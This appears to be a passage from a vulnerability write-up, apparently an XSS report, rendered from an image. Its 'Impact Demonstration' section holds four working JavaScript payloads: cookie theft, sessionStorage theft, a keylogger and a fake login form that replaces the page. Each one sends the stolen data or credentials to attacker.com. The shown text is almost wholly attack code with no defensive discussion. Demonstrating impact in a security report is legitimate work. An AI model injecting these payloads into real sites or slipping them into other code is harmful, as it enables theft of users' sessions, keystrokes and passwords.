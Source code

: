 ## 💥 Impact Demonstration

### 9.1 Cookie Theft
```html
<script>
// Steal cookies and send to attacker server
var cookies = document.cookie;
var img = new Image();
img.src = 'http://attacker.com/steal.php?cookies=' + encodeURIComponent(cookies);
</script>
```

### 9.2 Session Hijacking
```html
<script>
// Steal session storage
var sessionData = JSON.stringify(sessionStorage);
fetch('http://attacker.com/steal-session', {
  method: 'POST',
  body: sessionData
});
</script>
```

### 9.3 Keylogger Implementation
```html
<script>
// Simple keylogger
document.addEventListener('keypress', function(e) {
  var img = new Image();
  img.src = 'http://attacker.com/keylog.php?key=' + encodeURIComponent(e.key);
});
</script>
```

### 9.4 Phishing Attack
```html
<script>
// Replace page content with fake login form
document.body.innerHTML = `
  <div style="text-align:center; margin-top:100px;">
    <h2>Session Expired - Please Login Again</h2>
    <form action="http://attacker.com/phish.php" method="post">
      <input type="text" name="username" placeholder="Username" required><br><br>
      <input type="password" name="password" placeholder="Password" required><br><br>
      <input type="submit" value="Login">
    </form>
  </div>
`;
</script>
```
